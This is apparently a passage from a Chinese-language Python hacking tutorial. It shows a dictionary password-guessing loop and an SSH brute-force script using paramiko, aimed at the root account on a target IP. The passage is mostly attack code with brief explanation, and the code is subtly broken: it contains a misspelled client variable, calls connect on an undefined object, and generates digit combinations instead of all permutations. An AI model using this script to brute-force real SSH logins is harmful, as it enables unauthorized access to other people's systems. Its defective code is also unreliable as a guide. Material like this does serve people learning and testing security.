 使用所有可能的密码进行测试时，首先使用可能被用作密码的单词，如姓名和地点。这个方法和我们注射的方法一样。

我们可以从字典文件中读取密码，并在应用程序中进行如下尝试：

```
with open('password-dictionary.txt') as f: 
    for password in f: 
        try: 
                # Use the password to try login 

                print "[+] Password Found: %s" % password 
                break; 
        except : 
                print "[!] Password Incorrect: %s" % password 

```

在这里，我们阅读`dictionary`文件并尝试脚本中的每个密码。当特定密码生效时，它将在控制台中打印它。

### 提示

您可以在此处下载 fuzz 数据库的完整列表：[https://github.com/fuzzdb-project/fuzzdb](https://github.com/fuzzdb-project/fuzzdb) 。

# SSH 暴力强迫

我们可以使用 Python 脚本自动执行暴力攻击来破坏 SSH 登录。在这里，我们尝试使用多个用户名和密码，以使用自动 Python 脚本绕过 SSH 身份验证。对于强制 SSH，我们必须使用名为**paramiko**的模块，它允许我们连接到 SSH。

首先，我们导入所需的模块：

```
import paramiko, sys, os, socket  
import itertools,string,crypt  

```

然后初始化静态变量，如密码大小、目标 IP、目标端口和用户：

```
PASS_SIZE = 5 
IP = "127.0.0.1" 
USER = "root" 
PORT=22 

var = itertools.combinations(string.digits,PASS_SIZE) 

```

检查每个密码：

```
try: 
    for i in var: 
        passwd = ''.join(i) 

        ssh_client = paramiko.SSHClient() 
        ssh_client.load_system_host_keys() 
           ssh_clienth.set_missing_host_key_policy(paramiko.MissingHostKeyPolicy()) 
        try: 
            ssh.connect(IP , port=PORT, username=USER, password=passwd) 
            print "Password Found= "+passwd 
            break 
        except paramiko.AuthenticationException, error: 
            print "Faild Attempt: "+passwd 
            continue 
        except socket.error, error: 
            print error 
```